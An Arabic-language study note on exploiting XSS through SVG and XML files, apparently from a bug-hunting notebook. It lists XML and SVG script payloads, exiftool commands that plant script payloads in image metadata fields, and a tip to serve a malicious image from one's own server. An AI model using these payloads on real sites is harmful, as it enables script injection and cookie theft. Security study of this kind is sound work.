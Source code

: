 # سيناريوهات استغلال SVG and XML
## اول سيناريو : الشرح الاساسي لاستغلال ال  SVG and XML
{  #XSS_Idea_for_SVG_tag /  #XSS_idea_XML }

![2025-05-11 19-32-44.mkv](attachments/2025-05-11 19-32-44.mkv)





#### xml payload for xss

```bash
<x:script xmlns:x="http://www.w3.org/1999/xhtml">alert(document.domain)</x:script>
<x:script xmlns:x="http://www.w3.org/1999/xhtml">alert(1)</x:script>
أو لو انت جوه تعليق:
--> <x:script xmlns:x="http://www.w3.org/1999/xhtml">alert(1)</x:script>

```

#### svg payload for xss

```bash
<?xml version="1.0" standalone="no"?>  
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">  
<svg version="1.1" baseProfile="full" >  
<polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>  
<script type="text/javascript">  
alert(document.domain);  
</script>  
</svg>
```

----


## ثاني سيناريو : استغلال  Metadata XSS
{ #XSS_Idea_for_SVG_tag  }
#### الشرح:
![2025-05-28 22-34-48.mkv](attachments/2025-05-28 22-34-48.mkv)

#### الاوامر اللي في الشرح :
```bash
exiftool -FieldName='<script>alert(1)</script>' image.jpg
exiftool -Model='<script>alert(1)</script>' image.jpg
exiftool -Make='<img src=x onerror=alert(1)>' image.jpg
exiftool -Comment='<svg/onload=alert(1)>' image.jpg
exiftool -Artist='<script>alert(document.cookie)</script>' image.jpg
exiftool -Copyright='<script>alert("xss")</script>' image.jpg
exiftool -UserComment='<script>alert("user")</script>' image.jpg
exiftool -Software='<iframe src=javascript:alert(1)>' image.jpg
exiftool -DateTimeOriginal='<script>alert("date")</script>' image.jpg
exiftool -GPSLatitude='<script>alert("lat")</script>' image.jpg
```

#### شرح الاداه الي اسمها [[ExifTool]]



----

## طب الموقع مش بيقبل رفع صوره (يعني مش في خانه upload) بس بيقبل وضع رابط url  
{ #XSS_Idea_for_SVG_tag }
ساعتها اعملك انت server وحط الصوره علي ال server وحط رابط ال server بتاعك في مكان الرابط

#### الشرح


